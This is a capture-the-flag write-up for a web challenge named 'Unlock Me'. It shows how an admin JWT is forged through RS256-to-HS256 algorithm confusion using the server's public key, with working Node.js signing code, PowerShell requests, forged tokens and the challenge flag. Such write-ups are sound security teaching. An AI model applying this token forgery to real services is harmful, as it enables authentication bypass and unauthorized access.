 ```yaml
---
layout: default
title: Unlock Me
permalink: /:path/
parent: Web
nav_order: 1
---
```

# Unlock Me

> Points: 927 [1000]

## Description 
>Our agents discovered COViD's admin panel! They also stole the credentials **minion:banana**, but it seems that the user isn't allowed in. Can you find another way?  
>
> [Admin Panel](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/)  
>This challenge:
>
>- Unlocks other challenge(s)
>- Is eligible for Awesome Write-ups Award
>- Prerequisite for Mastery Award - Web Warrior

## Solution
This challenge was interesting as we were able to learn about new jwt type attacks given the public key. Overall it was a freshing and new web challenge for us!

The credentials username banana and banana were given to us. The link brings us to the COViD HQ login. Attempting random credentials gives us the `Incorrect credentials` error. However when attempting to login using the credentials provide, us a different error `Only admins are allowed into HQ!`.

Upon closer inspection into the source code of html this was found
```html
<script>
$( "#signinForm" ).submit(function( event ) {
  event.preventDefault();
  fetch("login", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({"username": $( "#inputUsername" ).first().val(), "password": $( "#inputPassword" ).first().val() })
  }).then(function(response) {
    return response.json();
  }).then(function(data) {
    if (data.error) {
      $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
    } else {
      fetch("unlock", {
        headers: {
          "Authorization": "Bearer " + data.accessToken
        }
      }).then(function(response) {
        return response.json();
      }).then(function(data) {
        if (data.error) {
          $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
        } else {
          $('#alerts').html('<div class="alert alert-success" role="alert">'+data.flag+'</div>');
        }
      }).catch(function(error) {
        $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
      })
    }
  }).catch(function(error) {
    $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
  })
});
// TODO: Add client-side verification using public.pem
</script>
```

Upon seeing this we thought why not trying to access [public.pem](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/) file directly which gave us the actual public.pem.

In addition the `fetch("login")` and `fetch("unlock")` seem to api routes.

As such we decided to query to api directly using powershell's `Invoke-RestMethod` to query the `/login`

```powershell
irm -Method Post "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login" -ContentType "application/json" -Body (@{username="minion";password="banana";}| ConvertTo-Json)
```

This gave us the access token to minion's account will be verified later
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NDIxMDcwfQ.x6nDrEn2HrT0Ey807PaevMobHpXxlEBJmRh1DsHEPhuYAJqxRrsgYP6SEpegOZ0WP8TmmHPmXc3Vq0vvZfHy4fKE91_m0a0oC9kyg8TziamJGu7htDl2niivf3w_Kf2A6nvmVc--z8bvGD2ir3gtHr4oncC53K7M7nOSdNbdXEPOczSE-TzijpaunMcr9oltmkMNWqwVl7JZgdTqbgUob5kxk9sSshiZEfZ-U45Ykc1WfecTWC_vgLmMaM8xvgGmcg_DxzM9cIMOC3Cmq96a3X7pZC3JkTk0KSOI1UUrue-2fCm2FimdABy9QrcZc9f4FyiVECX5jlt5Dq5BUFQWWv5k1d3ddOyG0T9EBf-jhmCGl581ixkDFtE44RNP8us2kyaffKWytR11xUEx13-OQowHc9yfIYi6nfbw2_ZCwTJgLBMQmkX72vyhsvAHGTjR8q2UKpEafIxDIVxy8IImXCSyuoOrpwDVzjewmBaLFYdgA80gzEHxYGq5OwMeDusyEFC_piJzy7J6FVJt7XIdxws1beswddaYfkEawRCHwYMqAg_qF63ws9omgyOQmTRq0KSYlyMU-5iOMC9QnKolpgyxqIBUizqV6sCQlKC6b9MYlSfo282vSecAe-EhMG2oE-oq5T_FMPzOyr4w_jh8aeVrHJIWM_qXnJOLuV04m7s
```

At this point we were quite stuck until we manage to find this https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/ which mentions the `None` algorithm attack. To test this we installed nodejs and jsonwebtoken
and ran the following code
```javascript
const jwt = require('jsonwebtoken')
let cert = fs.readFileSync('./public.pem')
let token = "thejwttokenfromabove"
payload = jwt.verify(token,cert)
payload
{ username: 'minion', role: 'user', iat: 1607421070 }
```
At this point we altered the payload and tried the none algorithm.

```javascript
payload['username']='admin'
'admin'
payload['role']='admin'
'admin'
payload
{ username: 'admin', role: 'admin', iat: 1607421070 }
jwt.sign(payload,cert,{algorithm:"None"})
Uncaught Error: "algorithm" must be a valid string enum value
    at /root/test/node_modules/jsonwebtoken/sign.js:52:15
    at Array.forEach (<anonymous>)
    at validate (/root/test/node_modules/jsonwebtoken/sign.js:43:6)
    at validateOptions (/root/test/node_modules/jsonwebtoken/sign.js:58:10)
    at Object.module.exports [as sign] (/root/test/node_modules/jsonwebtoken/sign.js:141:5)
```
At this point, I rechecked the same article saw another `RS256` to `HS256` vulnerability. Trying it, I was able to successfully generate a HS256 jwt token!

```javascript
jwt.sign(payload,cert,{algorithm:"HS256"})
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI'
```
Using the token above I tried to call the `/unlock` which gave me the flag! Whoorays!

```powershell
irm "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock" -Headers @{Authorization="Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI";}

flag
----
govtech-csg{5!gN_0F_+h3_T!m3S}
``` 

## Flag
`govtech-csg{5!gN_0F_+h3_T!m3S}`

